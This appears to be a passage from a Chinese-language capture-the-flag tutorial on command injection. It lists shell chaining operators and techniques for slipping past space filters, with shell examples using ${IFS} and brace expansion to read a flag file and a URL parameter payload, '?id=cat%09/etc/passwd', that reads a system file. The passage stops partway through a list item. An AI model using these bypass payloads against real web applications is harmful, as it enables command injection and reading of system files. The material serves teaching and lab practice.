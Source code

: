 1. cmd1 | cmd2 (|管道操作符)

   管道操作符会将cmd1的结果输出给cmd2

2. cmd1 & cmd2 (&和号操作符)

   &会让命令在后台运行

3. cmd1 ; cmd2 (; 分号操作符)

   执行多条命令

4. cmd1 && cmd2 (&&与操作符)

   只有cmd1执行成功后才会去执行cmd2

5. cmd1 || cmd2 (|| 或操作符)

   cmd1执行失败才会执行cmd2



##### 空格过滤绕过

1. 字符串拼接

   IFS(内部域分隔)是SHELL内置变量，是一个用于分隔的字符列表，默认值是空白(空格、tab、换行)

   用法：

   ```shell
   root@DESKTOP-10M601S:/home# cat${IFS}flag
   flag{just_simple_flag}
   root@DESKTOP-10M601S:/home# cat$IFS'flag'
   flag{just_simple_flag}
   root@DESKTOP-10M601S:/home# cat$IFS"flag"
   flag{just_simple_flag}
   root@DESKTOP-10M601S:/home# cat$IFS$1flag
   flag{just_simple_flag}
   ```

2. 使用{}

   例如：

   ```shell
   root@DESKTOP-10M601S:/home# {cat,flag}
   flag{just_simple_flag}
   ```

3. 使用tab

   例如：

   ```
   ?id=cat%09/etc/passwd
   ```

4. 使用重定向符

   在读取文件时可以使用重定向符来替代空格

   例如：
